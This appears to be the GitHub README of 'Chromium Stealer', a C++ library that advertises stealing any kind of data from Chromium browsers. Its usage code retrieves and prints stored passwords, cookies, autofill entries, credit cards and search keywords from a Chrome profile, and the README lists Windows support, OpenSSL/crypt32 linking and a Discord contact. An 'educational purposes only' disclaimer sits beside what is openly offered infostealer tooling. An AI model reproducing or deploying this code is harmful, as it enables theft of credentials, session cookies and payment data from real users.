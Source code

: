 # 🟩 Chromium Stealer 🟩 <a href="https://github.com/yurtrimu/chromium-stealer/actions/workflows/main.yml"><img src="https://github.com/yurtrimu/chromium-stealer/actions/workflows/main.yml/badge.svg" alt="Working"></a>

## **A lightweight library-kind of project that can steal any kind of data from any chromium browsers.**

# Questions?
### - **I gladly answer your questions on the [discord server](https://discord.gg/QBhFd2aK4r).**

## Usage

```cpp
#include "chromiumstealer.hpp"

int main() {

    // Check operating system
    if (!utils::console::is_windows()) {
        printf("The operating system has to be Windows NT\n");
	exit(EXIT_FAILURE);
    }

    // Set console to utf8 output to evade any gibberish characters
    if (!utils::console::set_utf8()) {
        printf("Couldn't set console IO to utf8 encoding.\nConsole IO could show gibberish texts.\n");
    }

    // Path to any chromium browser's files
    std::string Local_State_Path = "Google\\Chrome\\User Data\\Local State";
    std::string Database_Path = "Google\\Chrome\\User Data\\Default";

    // Define the stealer
    ChromiumStealer Stealer(Local_State_Path, Database_Path);

    // Initialize the stealer
    stealer.initialize();

    // Get any data you want
    std::vector<ChromiumStealer::cookie_data> cookies_data = stealer.get_cookies();
    std::vector<ChromiumStealer::password_data> pass_data = stealer.get_password();
    std::vector<ChromiumStealer::autofill_data> auto_data = stealer.get_autofill();
    std::vector<ChromiumStealer::creditc_data> card_data = stealer.get_credit_card();
    std::vector<ChromiumStealer::keyword_data> key_data = stealer.get_keywords();
    std::vector<ChromiumStealer::status_data> status_data = stealer.get_status();

    // Print the data
    std::string passwords_result = stealer.print_passwords(pass_data);
    std::string cookies_result = stealer.print_cookies(cookies_data);
    std::string autofills_result = stealer.print_autofills(auto_data);
    std::string credit_cards_result = stealer.print_credit_cards(card_data);
    std::string keywords_result = stealer.print_keywords(key_data);
    std::string statuses_result = stealer.print_statuses(status_data);

    printf("\nPasswords Result: %s\n", passwords_result.c_str());
    printf("\nCookies Result: %s\n", cookies_result.c_str());
    printf("\nAutofills Result: %s\n", autofills_result.c_str());
    printf("\nCredit Cards Result: %s\n", credit_cards_result.c_str());
    printf("\nKeywords Result: %s\n", keywords_result.c_str());
    printf("\nStatuses Result: %s\n", statuses_result.c_str());
}
```

## Example.png

![alt text](https://github.com/yurtrimu/chromium-stealer/blob/main/example.png?raw=true)

## Operating System
- **Below Windows 7 - 🟦 Untested**
- **Windows 7 - 🟦 Untested**
- **Windows 10 - 🟩 Working**
- **Windows 11 - 🟦 Untested**
- **Mac OS - 🟥 Not Working**
- **Linux - 🟥 Not Working**

## Requirements

**You need to have the OpenSSL library installed and linked to your compiler.**

- You could download the OpenSSL library from [OpenSSL website](https://www.openssl.org/source/).

## Linker
- **libssl.lib**
- **libcrypto.lib**
- **crypt32.lib**


## Compiling

- **Build - 🟦 Untested**
- **Release - 🟩 Working**
- **C++17 or below - 🟥 Not Working**
- **C++20 - 🟩 Working**

## Contributing

**Pull requests are welcome.**

## Legal Disclaimer
🟥 **The content provided is for educational and informational purposes only.** 🟥

